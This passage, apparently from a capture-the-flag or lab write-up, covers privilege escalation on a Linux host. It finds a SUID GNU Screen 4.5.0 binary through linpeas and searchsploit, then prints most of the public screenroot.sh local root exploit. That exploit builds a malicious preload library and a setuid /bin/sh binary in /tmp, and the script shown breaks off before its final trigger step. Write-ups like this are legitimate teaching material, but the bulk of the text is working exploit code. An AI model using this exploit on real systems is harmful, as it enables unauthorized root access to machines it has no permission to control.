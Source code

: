 ## **Privilege Escalation**

After getting a foothold and upgrading the shell fully tty, I run `linpeas` and found the following.

![](9.png)

We found the suid binary `screen-4.5.0`. Since we have a version here, the binary must have a vulnerability.

```terminal
$ searchsploit screen 4.5.0
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                               | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                         | linux/local/41152.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We confirmed `screen-4.5.0` has a vulnerability with `searchsploit` and found a local privilege escalation [exploit](https://www.exploit-db.com/exploits/41154).

```terminal
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
```
